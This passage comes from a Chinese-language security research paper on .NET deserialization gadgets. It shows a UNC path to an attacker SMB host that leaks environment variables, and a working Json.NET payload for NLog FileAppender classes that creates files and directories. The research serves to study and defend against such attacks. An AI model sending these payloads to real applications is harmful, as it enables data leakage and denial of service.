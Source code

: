 代码段 56 FileHelper.TestDirectoryPermissions 方法

在 \[1\] 处，代码检查目录是否存在。

如果不存在，则在 \[2\] 处创建它。

通过这种方式，攻击者可以使用此工具创建新目录或泄露环境变量。当传递以下路径时：`\\attacker\%PATHEXT%`，变量可以从 SMB 服务器日志中提取（请参阅以下截图）。

![](assets/1706773633-d5ca689893a917ce6064d2fb15bdd812.png)

图 4 通过 SMB 连接泄露环境变量

#### 2.7 NLOG – CountingSingleProcessFileAppender / SingleProcessFileAppender / MutexMultiProcessFileAppender

目标类：`NLog.Internal.FileAppenders.CountingSingleProcessFileAppender` `NLog.Internal.FileAppenders.SingleProcessFileAppender` `NLog.Internal.FileAppenders.MutexMultiProcessFileAppender`

适用性 (序列化器): `Json.NET`、`XamlReader`、`MessagePack` 和可能的其他序列化器。

适用性 (.NET): .NET Framework (.NET>=5 未经验证)

最新测试版本：5.2.4

效果：目录创建和空文件创建。如果目标应用程序以 SYSTEM 权限运行，可以通过创建目录/文件来实现拒绝服务。

小工具 (Json.NET):

```bash
{ 
    "$type":"NLog.Internal.FileAppenders.SingleProcessFileAppender, NLog,  
Version=5.0.0.0, Culture=neutral, PublicKeyToken=5120e14c03d0593c", 
    "fileName":"C:\\Users\\Public\\poc\\poc.txt", 
    "parameters": 
    { 
        "$type":"NLog.Targets.FileTarget, NLog, Version=5.0.0.0, Culture=neutral,  
PublicKeyToken=5120e14c03d0593c" 
    } 
} 
```

代码段 57 SingleProcessFileAppender

描述：

这三个小工具都基于它们的构造函数调用 `NLog.Internal.FileAppenders.BaseFileAppender.CreateFileStream`。例如：

```bash
internal class SingleProcessFileAppender : BaseFileAppender 
{ 
    public SingleProcessFileAppender(string fileName, ICreateFileParameters 
parameters) : base(fileName, parameters) 
    { 
        this._file = base.CreateFileStream(false, 0); // [1] 
        this._enableFileDeleteSimpleMonitor =  
parameters.EnableFileDeleteSimpleMonitor; 
        this._lastSimpleMonitorCheckTickCount = Environment.TickCount; 
    } 
 ... 
```

代码段 58 SingleProcessFileAppender constructor

在 \[1\] 处，调用了 `BaseFileAppender.CreateFileStream`。

